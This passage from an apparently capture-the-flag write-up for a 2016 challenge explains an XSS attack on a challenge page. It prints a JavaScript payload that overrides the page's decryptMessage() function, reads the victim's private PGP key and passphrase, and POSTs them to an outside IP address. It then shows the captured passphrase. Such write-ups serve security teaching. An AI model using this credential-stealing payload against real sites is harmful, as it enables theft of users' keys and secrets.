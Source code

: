 
Since the bot triggers the `decryptMessage()` function AFTER our XSS payload gets executed, we should be able to override the `decryptMessage()` with a malicious version.

Here is an updated version of our javascript payload:

```txt
function decryptMessage() {
    var privkey = document.getElementById("privkey").value.trim();
    var user_pass = document.getElementById("msg-subject").value;

    params  = '' + privkey + '.'+ user_pass;;
    send_back(params);
};

function send_back(data) {
  var req = new XMLHttpRequest();
  req.open("POST", "http://54.172.225.153/send.php");
  req.setRequestHeader("Content-type","application/x-www-form-urlencoded");
  req.send("encMessage=" + encodeURIComponent(data) + "&toID=8&subject=Test&origMessage=");
}
```

When Julian Assange will hit the `decrypt` button, our malicious function will be called instead of the real one.

Our `decryptMessage()` will take the private key and passphrase that Julian Assange entered previously and will send it back to us.

Here's the result after sending our new payload :

![priv_key_and_pass](/assets/img/rc3-2016/priv_key_and_passphrase.png)

We now have the private PGP key and the passphrase (`4ll_H41L_w1k1L34K$-03071971`)
